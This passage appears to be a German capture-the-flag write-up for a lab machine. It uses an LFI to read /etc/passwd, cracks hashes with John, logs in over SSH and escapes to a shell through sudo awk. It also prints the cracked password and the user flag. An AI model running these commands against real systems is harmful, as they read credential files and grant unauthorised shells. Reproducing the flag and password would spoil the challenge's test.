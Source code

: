 
## Phase 2: Web Enumeration & Initial Access (LFI & Hash Cracking)

1.  **Web-Enumeration:**
    *   `gobuster dir -u http://192.168.2.114 [...]` fand u.a. `/index.html` und das Verzeichnis `/building/`.
    *   `wfuzz` wurde verwendet, um die LFI im Parameter `page` von `/building/index.php` zu testen und zu bestätigen.

2.  **Ausnutzung der LFI:**
    *   Mittels `curl` wurde `/etc/passwd` über die LFI ausgelesen:
        ```bash
        curl "http://192.168.2.114/building/index.php?page=/etc/passwd" | grep bash
        # Identifizierte Benutzer: root, jack, jaba
        ```
    *   `/etc/shadow` wurde ebenfalls per LFI ausgelesen (impliziert).

3.  **Passwort-Hash-Cracking:**
    *   Die Inhalte von `/etc/passwd` und `/etc/shadow` wurden lokal gespeichert.
    *   `unshadow passwd.txt shadow.txt > unshadowed.txt` erstellte die für John benötigte Datei.
    *   `john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt` knackte das Passwort:
        *   Benutzer: `jack`
        *   Passwort: `joaninha`

4.  **SSH-Login als `jack`:**
    *   `ssh jack@192.168.2.114` mit dem Passwort `joaninha` war erfolgreich. Initialer Zugriff wurde erlangt.

---

## Phase 3: Privilege Escalation (Kette)

### jack zu jaba (Sudo/awk)

1.  **Sudo-Rechte-Prüfung für `jack`:**
    *   `jack@jabita:~$ sudo -l` zeigte:
        ```
        User jack may run the following commands on jabita:
            (jaba : jaba) NPASSWD: /usr/bin/awk
        ```
2.  **Ausnutzung von `sudo awk`:**
    *   Eine Shell als `jaba` wurde durch Ausführen von `awk` mit der `system()`-Funktion erlangt:
        ```bash
        sudo -u jaba awk 'BEGIN {system("/bin/sh")}'
        ```
    *   Die Shell wurde mit Python PTY stabilisiert.
    *   Die User-Flag `2e0942f09699435811c1be613cbc7a39` wurde in `/home/jaba/user.txt` gefunden.

### jaba zu root (Sudo/Python Library Hijacking)
